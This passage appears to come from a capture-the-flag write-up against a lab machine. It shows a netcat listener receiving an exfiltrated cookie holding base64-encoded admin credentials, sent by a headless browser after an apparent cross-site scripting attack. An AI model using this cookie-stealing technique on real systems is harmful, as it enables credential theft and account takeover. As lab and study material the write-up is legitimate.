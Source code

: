 ![](2021-02-05-12-10-15.png)

kali@kali:~$ sudo nc -lvnp 80
listening on [any] 80 ...
connect to [10.10.14.17] from (UNKNOWN) [10.10.10.154] 52967
GET /?c=username=YWRtaW4%3D;%20password=SG9wZWxlc3Nyb21hbnRpYw%3D%3D;%20id=1 HTTP/1.1
Referer: http://localhost/admin/index.php
User-Agent: Mozilla/5.0 (Windows NT 6.2; WOW64) AppleWebKit/538.1 (KHTML, like Gecko) PhantomJS/2.1.1 Safari/538.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,*
Host: 10.10.14.17


